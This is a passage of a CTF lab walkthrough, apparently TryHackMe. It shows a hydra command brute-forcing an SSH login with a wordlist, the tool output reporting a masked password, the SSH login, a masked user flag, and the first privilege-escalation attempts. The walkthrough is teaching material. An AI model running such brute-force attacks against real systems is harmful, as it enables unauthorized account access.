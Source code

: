 Locks.txt is a file with a lot of Names in there. Looks like a directory.
Task.txt is a file where some task are descripted and it contains a username. 

As a hint from TryHackMe, we can Bruteforce ssh with the locks.txt file and the username. 

## 5 Bruteforce ssh

So lets fire up hydra and brutefoce the login to ssh:
```sh
hydra -t 16 -l l** -P locks.txt 10.10.149.155 ssh
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-23 20:31:43
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.149.155:22/
[22][ssh] host: 10.10.149.155   login: l**   password: R****************3
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-23 20:31:48
```

Now we have a username and a login for ssh:

- Username: l**
- Password: R****************3

## 6 login with ssh 

Now lets get on the Machine with ssh:
```sh
ssh l**@10.10.149.155
``` 

On the User Desktop we found the user.txt file, whitch gave us the User-Flag, i used "cat" to display the content of the file. 

- User-flag: THM{C*************3}

## 7 Priv-Escalation
 
The last step is to get the Root-Flag. 

For this step i have tried different ways. 
First step was, to check if i can run any commands with sudo. but the "sudo -l" command was protected with password. 
so i thought, ok, i don't have the password for the user. I will go for LinPeas to check if any other tings are good for Priv Escalation. 
